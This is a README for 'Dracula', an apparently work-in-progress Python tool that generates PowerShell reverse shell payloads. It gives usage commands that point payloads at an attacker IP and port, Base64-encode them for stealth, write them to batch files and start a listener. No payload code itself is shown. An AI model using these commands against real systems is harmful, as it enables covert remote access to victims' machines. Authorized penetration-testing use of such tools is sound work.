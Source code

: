WIP, HASNT PROPERLY BEEN TESTED ON OTHER SYSTEMS
# Dracula 

Dracula is a Python-based tool designed to generate reverse shell payloads using PowerShell and Command Prompt. It provides options to create encoded payloads for stealth and supports direct connection to a target system once the payload is executed.

## Features
- Generates PowerShell-based reverse shell payloads
- Supports both plain text and Base64 encoded payloads
- Allows automatic connection to a target after execution

## How it works

## Installation
Ensure you have Python installed, then clone this repository:

```bash
git clone https://github.com/chet-ag09/dracula
cd dracula
```

Install any necessary dependencies:

```bash
pip install -r requirements.txt  
```

## Usage
Run the script using:

```bash
python dracula.py
```

### Commands

- **Generate a reverse shell payload:**
  ```bash
  Dracula >> -IP <attacker-ip> -PORT <port> -OUTFILE <output-file>
  ```

- **Generate an encoded payload (Base64):**
  ```bash
  Dracula >> -IP <attacker-ip> -PORT <port> -OUTFILE <output-file> -ENCODED
  ```

- **Display payload directly:**
  ```bash
  Dracula >> -IP <attacker-ip> -PORT <port>
  ```

- **Display an encoded payload:**
  ```bash
  Dracula >> -IP <attacker-ip> -PORT <port> -ENCODED
  ```

- **Start a listener after payload execution:**
  ```bash
  Dracula >> -IP <attacker-ip> -PORT <port> -CONNECT
  ```

## Example

To generate a Base64 encoded payload for a reverse shell:

```bash
Dracula >> -IP 192.168.1.10 -PORT 4444 -OUTFILE shell.bat -ENCODED
```

To start a listener after the payload is executed:

```bash
Dracula >> -IP 192.168.1.10 -PORT 4444 -CONNECT
```

## Disclaimer
This tool is intended for educational and ethical penetration testing purposes only. The author does not take responsibility for any misuse. Use this tool only on systems you own or have explicit permission to test.

